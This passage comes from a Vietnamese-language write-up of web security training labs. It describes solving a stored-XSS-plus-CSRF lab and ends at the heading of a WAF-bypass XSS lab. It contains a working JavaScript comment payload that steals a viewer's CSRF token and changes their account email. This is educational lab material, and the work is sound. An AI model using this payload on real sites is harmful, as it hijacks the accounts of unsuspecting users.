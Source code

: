 * Content:
```
This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.

You can log in to your own account using the following credentials: wiener:peter

Learning path
If you're following our suggested learning path, please note that this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.
```
* Exploit: 

Đăng nhập vào và check chức năng đổi mail => Sử dụng link `POST /my-account/change-email` với Data truyền vào là `email=wiener%40admin-user.net&csrf=smqFjQb05gI9NpKJ3xwDdifJ8fT1z5vM` 

<img width="373" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/6aa2cfe4-8cee-48cd-8b7a-d03ee8e453bd">

=> Data có bao gồm `token` => Vậy để khiến cho người dùng khác tự đổi password => Cần phải trigger cho user này vào link `/my-account` và bắt lại response chứa thông tin token => Đưa vào request thực hiện đổi Email.

<img width="482" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/bf4f73d5-db18-4837-882b-16f9d2a21fee">

Soạn nội dung comment như sau:
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

<img width="371" alt="image" src="https://github.com/nguyenkhai98/nguyenkhai98.github.io/assets/51147179/9f257b2e-8c2a-4e97-946d-59e21c2d90a9">

Lab Solved! => User nào thấy nội dung comment trên sẽ bị đổi email thành `test@test.com`

***

## 5. Lab: Reflected XSS into HTML context with most tags and attributes blocked
* Content:
```
This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

Note
Your solution must not require any user interaction. Manually causing print() to be called in your own browser will not solve the lab.
```
* Exploit: 

